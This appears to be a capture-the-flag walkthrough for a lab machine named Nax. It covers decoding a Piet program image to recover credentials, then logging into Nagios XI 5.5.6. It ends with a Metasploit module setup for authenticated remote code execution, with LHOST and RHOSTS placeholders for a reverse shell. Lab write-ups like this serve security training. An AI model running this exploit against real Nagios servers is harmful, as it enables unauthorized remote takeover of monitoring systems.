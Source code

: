 # Nax 

### Nax 
The source code of the website shows a directory:<br />
![Screenshot 2025-04-07 152226](https://github.com/user-attachments/assets/8e25f609-d09b-4966-aa88-4ee537e00dc8)<br />
I looked online for default credentials for `nagios xi` or some unauthenticated exploit but didn't find anything. <br />
Next, the main website shows a series of elements from the periodic table. If you look at the number of each chemical element in the periodic table, this list becomes `47 80 73 51 84 46 80 78 103`:<br />
![image](https://github.com/user-attachments/assets/740decb9-7eb1-4e3d-be52-ac694dad0fd5)<br />
So there's a file called `PI3T.PNg`. I download the image and look at the strings of this file:<br />
![image](https://github.com/user-attachments/assets/814af22e-328d-4beb-a3b4-e9a8e254205d)<br />
At this point I followed the hint from the task, and understood that piet is an esoteric language , programs in piet are images. and I then found [this online tool](https://www.bertnase.de/npiet/npiet-execute.php) that was able to extract a set of credentials from the image. Now that I'm logged in I look at the version of nagios xi which is `5.5.6`. There's a metasploit RCE that exploits RCE: 

    use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
    set password REDACTED
    set lhost YOUR_IP
    set rhosts TARGET_IP
    run
